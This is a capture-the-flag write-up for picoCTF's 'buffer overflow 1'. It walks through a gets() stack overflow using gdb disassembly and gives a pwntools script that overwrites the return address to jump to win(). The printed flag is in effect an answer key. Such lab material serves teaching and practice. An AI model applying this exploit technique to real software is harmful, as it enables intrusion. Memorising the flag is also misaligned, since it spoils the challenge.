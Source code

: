 # buffer overflow 1

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 200

# Challenge

## Description

Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the [program](./vuln).  
You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 51949`

## Source

[vuln.c](./vuln.c) (C source)  
[vuln](./vuln) (32-bit ELF)

# Solution

Let's look at the given source code:
    
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){
  ...
  vuln();
  ...
}
```

As the title hints, the program is vulnerable to [buffer overflow](/Guides/Vulnerabilities/Buffer%20Overflow%20Vulnerability.md) through the `gets()` function. That means we can overwrite the return address of the `vuln()` function, and make it return to the `win()` function, which prints the flag. Let's check `vuln()`'s stack frame:

```bash
$ gdb ./vuln
(gdb) disas vuln
Dump of assembler code for function vuln:
   ...
   0x0804929a <+25>:    lea    eax,[ebp-0x28]
   0x0804929d <+28>:    push   eax
   0x0804929e <+29>:    call   0x8049050 <gets@plt>
   ...
End of assembler dump.
```

`buf` is located at `[ebp-0x28]`, so the stack frame looks like this:

```
[ebp-0x28]  buf (size 32)
[ebp-0x08]  ? (DWORD)
[ebp-0x04]  ? (DWORD)
[ebp+0x00]  old ebp (DWORD)
[ebp+0x04]  return address (DWORD)
```

Our input should have 44 bytes of padding, and then the address of `win()`. We can find the address of `win()` using `disas`:

```bash
(gdb) disas win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
   ...
```

The address of `win()` is `0x80491f6`. Now we can write the exploit using [pwntools](/Guides/Tools/pwntools.md):

```python
from pwn import *

conn = remote('saturn.picoctf.net', 51949)

conn.recvuntil(b'Please enter your string: \n')
conn.sendline(b'A' * 44 + p32(0x80491f6)) # win() address

conn.recvline()
flag = conn.recvuntil(b'}').decode()

print('Flag:', flag)
```

```
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```

**The Flag:** `picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`
